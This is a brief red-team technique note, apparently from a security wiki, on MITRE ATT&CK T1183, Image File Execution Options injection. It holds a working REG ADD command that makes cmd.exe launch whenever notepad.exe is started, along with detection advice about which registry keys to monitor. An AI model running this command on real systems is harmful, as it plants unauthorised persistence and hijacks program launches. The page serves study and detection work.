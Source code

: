 ```yaml
---
description: 'Defense Evasion, Persistence, Privilege Escalation'
---
```


# T1183: Image File Execution Options Injection

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "cmd.exe"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching a notepad on the victim system:

![](../.gitbook/assets/ifeo-notepad.png)

![](../.gitbook/assets/ifeo-notepad2.png)

## Observations

Monitoring commandline arguments and events mofidying the `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options/<executable>` and `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable>` should be helpful in detecting these manipulations:

![](../.gitbook/assets/ifeo-cmdline.png)

![](../.gitbook/assets/ifeo-cmdline2.png)

  




  


